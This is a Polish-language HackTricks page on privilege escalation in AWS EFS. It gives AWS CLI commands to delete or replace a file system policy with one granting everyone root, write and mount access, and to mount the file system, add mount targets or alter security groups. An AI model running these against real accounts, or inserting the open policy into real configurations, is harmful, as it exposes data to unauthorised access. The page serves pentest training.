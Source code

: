 # AWS - EFS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## EFS

Więcej **informacji o EFS** w:

{{#ref}}
../../aws-services/aws-efs-enum.md
{{#endref}}

Pamiętaj, że aby zamontować EFS musisz znajdować się w subnecie, w którym EFS jest wystawiony, oraz mieć do niego dostęp (security groups). Jeśli tak jest, domyślnie zawsze będziesz mógł go zamontować, jednak jeśli jest chroniony przez polityki IAM musisz mieć dodatkowe uprawnienia wymienione tutaj, aby uzyskać do niego dostęp.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Posiadając któreś z tych uprawnień, atakujący może **zmienić politykę systemu plików**, aby **przyznać sobie dostęp** do niego, lub po prostu ją **usunąć**, tak aby **domyślny dostęp** został przyznany.

Aby usunąć politykę:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Aby to zmienić:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Z tym uprawnieniem atakujący będzie w stanie **zamontować EFS**. Jeśli uprawnienie do zapisu nie jest domyślnie przyznane wszystkim, którzy mogą zamontować EFS, będzie miał tylko **dostęp do odczytu**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Dodatkowe uprawnienia `elasticfilesystem:ClientRootAccess` i `elasticfilesystem:ClientWrite` mogą być użyte do **zapisu** wewnątrz systemu plików po jego zamontowaniu oraz do **dostępu** do tego systemu plików **jako root**.

**Potencjalny wpływ:** Pośrednia eskalacja uprawnień (privesc) poprzez odnalezienie wrażliwych informacji w systemie plików.

### `elasticfilesystem:CreateMountTarget`

Jeśli atakujący znajduje się w **podsieci**, w której **nie istnieje żaden mount target** dla EFS, może po prostu **utworzyć jeden w swojej podsieci** przy użyciu tego uprawnienia:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potencjalny wpływ:** Pośrednie privesc przez zlokalizowanie wrażliwych informacji w systemie plików.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

W scenariuszu, w którym atakujący stwierdzi, że EFS ma mount target w jego podsieci, ale **żadne security group nie zezwalają na ruch**, może po prostu **to zmienić, modyfikując wybrane security groups**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potencjalny wpływ:** Pośrednie privesc poprzez zlokalizowanie wrażliwych informacji w systemie plików.

{{#include ../../../../banners/hacktricks-training.md}}
